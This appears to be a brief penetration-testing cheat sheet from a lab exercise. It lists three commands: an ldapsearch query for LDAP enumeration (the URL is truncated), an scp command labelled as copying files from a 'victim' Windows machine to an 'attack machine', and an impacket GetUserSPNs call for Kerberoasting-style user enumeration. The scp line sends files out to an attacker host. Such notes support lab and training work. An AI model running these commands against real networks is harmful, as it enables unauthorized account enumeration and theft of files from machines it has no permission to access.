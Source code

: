 
LDAP exploitation

```
ldapsearch -x -D '[domain\username]' -w '[password]' -b 'dc=[subdomain],dc=[tld]' -H ldap://[target_ip
```

Copy files from Victim window machine to local attack machine

```
scp C:\temp root@10.10.123.233:/root/. 
```

* User info 

```
python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.30.8 THM.red/thm
```